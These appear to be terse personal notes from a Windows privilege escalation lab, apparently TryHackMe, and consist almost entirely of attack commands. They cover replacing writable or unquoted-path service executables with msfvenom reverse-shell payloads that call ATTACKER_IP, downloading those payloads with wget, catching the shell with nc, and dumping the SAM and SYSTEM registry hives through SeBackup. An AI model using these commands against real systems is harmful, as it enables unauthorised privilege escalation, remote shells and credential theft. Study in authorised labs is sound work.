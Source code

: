 ```bash
```
#### Insecure Permissions on Service Executable

command: 
```cmd
sc qc WindowsScheduler 
icacls C:\PROGRA~2\SYSTEM~1\WService.exe 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
python3 -m http.server 80
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

cd C:\PROGRA~2\SYSTEM~1\
move WService.exe WService.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F
nc -lvp 4445
sc stop windowsscheduler
sc start windowsscheduler
note: PowerShell sc.exe
```
#### Unquoted Service Paths 
command: 
```cmd
sc qc "disk sorter enterprise"  
icacls c:\MyPrograms 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe 
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
icacls C:\MyPrograms\Disk.exe /grant Everyone:F  
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"
```
#### Insecure Service Permissions 

###  Abusing dangerous privileges
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  
[impacket](https://github.com/fortra/impacket)

#### SeBackup / SeRestore  
command: 
```cmd
whoami /priv
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
### Abusing vulnerable software 
#### Unpatched Software 
[plain old Google](https://www.google.com/)
